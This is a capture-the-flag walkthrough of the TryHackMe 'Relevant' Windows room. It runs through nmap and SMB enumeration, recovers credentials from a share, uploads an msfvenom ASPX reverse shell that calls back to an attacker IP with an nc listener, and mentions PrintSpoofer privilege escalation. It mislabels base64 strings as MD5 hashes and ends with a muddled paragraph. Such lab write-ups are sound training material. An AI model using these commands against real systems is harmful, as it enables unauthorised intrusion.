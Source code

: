 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories:
  - thm
  - ctf
tags:
  - windows
  - active_directory
published: true
toc: true
---
```

## Scope:

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

Before diving into any further analysis, it's essential to initiate a preliminary assessment by running a simple ping command on the target host. This initial step can provide valuable information about the host's operating system and network characteristics. Pay close attention to the Time to Live (TTL) value, as it often reveals details about the host's underlying OS.

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```


Based on the basic OS detection performed, it's likely that the target machine is running a Windows operating system. The TTL value by default is 128 in Windows machines.

## Enumeration using `nmap`

Running nmap with -sC for default scripts, -sV enumerate version of every running service, -T4 is running script faster, -vvv to show me all the open ports as it is found and -oA for outputing all formats in case I want to pass it to another tool.

```bash
nmap -sCV -O -T4 -vvv -oA nmap/relevent 10.10.97.109
```
### Port Scan Results: The scan identified several open ports on the host:

- Port 80/tcp: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) with various HTTP methods supported. The web server is likely running on Windows Server and presents itself as "IIS Windows Server."

- Port 135/tcp: Open, running Microsoft Windows RPC.

- Port 139/tcp: Open, running Microsoft Windows netbios-ssn.

- Port 445/tcp: Open, running Windows Server 2016 Standard Evaluation 14393 with the service "microsoft-ds."

- Port 3389/tcp: Open, possibly running ms-wbt-server. An SSL certificate is present with the commonName "Relevant."

### Operating System Detection: 
The scan provides an educated guess about the host's operating system, suggesting it is likely running Microsoft Windows 2016, 2012, or 2008. However, it notes that the OS fingerprint is not ideal due to a missing closed TCP port.

## SMB:445
### Try Gust Authentication
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares

```
![CME](/assets/img/uploads/20230614185247.png)

- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```
- The users passwords was MD5 hashed.

> The Hash
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

> The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

![Privilages](/assets/img/uploads/20230614214734.png)

## PrivEsc

While investigation, I've uncovered the presence of the powerful `SeImpersonatePrivilege`. This privilege opens up an opportunity to leverage a tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), which takes advantage of Impersonation Privileges. Specifically, it exploits the `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019, allowing for a privilege escalation from LOCAL/NETWORK SERVICE to SYSTEM-level access. This discovery sheds light on a significant security vulnerability within these Windows systems.

![Privilages_is_500](/assets/img/uploads/20230614224001.png)

In the realm of cybersecurity, vigilance is paramount, and it's reassuring to know that your Antivirus (AV) has successfully identified and thwarted a potentially harmful "Potatoes attack." However, as we navigate the intricate landscape of security testing and ethical hacking, occasional roadblocks can arise. Currently, in the world of Kali Linux, there's a particular challenge hindering the execution of the EternalBlue MS17-010 exploit. This exploit, notorious for its role in significant cyber incidents, relies on a specific set of conditions to work effectively. Identifying and overcoming these obstacles is a crucial aspect of the cybersecurity journey, ensuring that we are always prepared to address both detected threats and technical hurdles in our pursuit of a safer digital environment.
